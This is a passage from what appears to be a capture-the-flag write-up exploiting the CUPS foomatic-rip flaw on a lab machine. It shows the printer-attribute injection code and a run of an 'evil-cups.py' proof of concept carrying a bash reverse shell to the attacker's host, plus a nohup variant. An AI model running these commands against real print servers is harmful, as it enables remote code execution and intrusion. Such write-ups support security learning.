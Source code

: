 ```
                SectionEnum.printer,
                b'printer-more-info',
                TagEnum.uri
            ): [f'"\n*FoomaticRIPCommandLine: "{self.command}"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'.encode()],
...[snip]...

```

The data starts with a newline, and then adds a `FoomaticRIPCommandLine` with the desired command.

#### Add Printer

Typically I liked to test POCs using simple payloads at first. Given that this POC will create a printer that I can’t delete, I’m going to try to just start with a shell. I’ll run the POC, and it sends the UDP packet:

```

oxdf@hacky$ python evil-cups.py 10.10.14.6 10.10.11.40 'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"'
IPP Server Listening on ('10.10.14.6', 12345)
Sending udp packet to 10.10.11.40:631...
Please wait this normally takes 30 seconds...
2 elapsed 

```

A better shell to send would be `nohup bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"&'`, as this will start the shell as a new process in the background. Otherwise, the shell dies every 5-10 minutes when the printer crashes for not being a real printer and gets cleaned up.

There’s a hang where it says it takes 30 seconds to respond, with a counter. After 29, the target connects and it sends the printer payload:

```

29 elapsed
target connected, sending payload ...

target connected, sending payload ...

```

At this point, the printer shows up on the CUPs TCP webserver:

![image-20240930124153109](/img/image-20240930124153109.png)

### Trigger RCE

From the page for the printer, one of the “Maintenance” options is to “Print Test Page”, which I’ll select:

![image-20240930125217779](/img/image-20240930125217779.png)
